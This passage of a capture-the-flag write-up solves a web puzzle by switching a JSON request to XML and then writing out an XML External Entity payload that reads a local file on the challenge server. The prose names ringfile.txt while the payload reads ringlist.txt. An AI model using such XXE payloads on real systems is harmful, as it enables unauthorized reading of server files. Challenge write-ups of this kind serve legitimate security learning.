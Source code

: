 Some experimentation tells us that img1 is the top right object, img2 is the top left, img3 is the bottom right, and img4 is the bottom left.

There was numerous mentions of TYPE in the dialogs, with indications that the princess can understand more than one.  HTML POST requests can format the information submitted using several Content Types, but the most common are JSON and XML.  We see from the data in the POST that it is using JSON, but what if we send the same data using the XML format?

To do this, send the POST request to the Burp repeater, and modify it as follows.

* Change the Content-Type in the header to application/xml
* Change the content to the XML format
``` xml
<?xml version="1.0" encoding="UTF-8" ?>
<root>
  <imgDrop>img1</imgDrop>
  <who>princess</who>
  <reqType>xml</reqType>
</root>
```

Inspecting the response packet we see different dialog from both the princess and the fountain.

| Object | Dropped On | Princess | Fountain |
| ------ | ---------- | -------- | -------- |
| any | princess | I love rings of all colors! | She definitely tries to convince everyone that the blue ones are her favorites. I'm not so sure though. |
| any | fountain | I'm one of the few who can discuss anything using that TYPE of language. | Yeah, I can understand a bit, but not communicate with it at all. |

The only thing we really learn from this is that the princess understands XML.

Referring back to the hint from Hal Tandybuck, XML External Entity (XXE) Processing seems to be an option.  This technique allows us to reference some external entity in our XML input, such as files on the local system.  We've learned that an APP PATH is involved, and there is a RINGFILE in a SIMPLE FORMAT, so if we can deduce the name of a file we may be able to retrieve it using XXE.

Looking at the web traffic again we see that image files representing the objects on the site that we can interact with are located in the directory `/static/images`.  If we deduce that the web application is in a directory called APP, and that the file is RINGFILE.TXT, then the local file we want to access is `/app/static/images/ringfile.txt`.

The following XML will use XXE to send this file to the princess.

``` xml
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE root[  
	<!ENTITY xxe SYSTEM "file:///app/static/images/ringlist.txt">
]>
<root>
  <imgDrop>&xxe;</imgDrop>
  <who>princess</who>
  <reqType>xml</reqType>
</root>
```

| Object | Dropped On | Princess | Fountain |
| ------ | ---------- | -------- | -------- |
| xxe | princess | Ah, you found my ring list! Gold, red, blue - so many colors! Glad I don't keep any secrets in it any more! Please though, don't tell anyone about this. | She really does try to keep things safe. Best just to put it away. (click) |
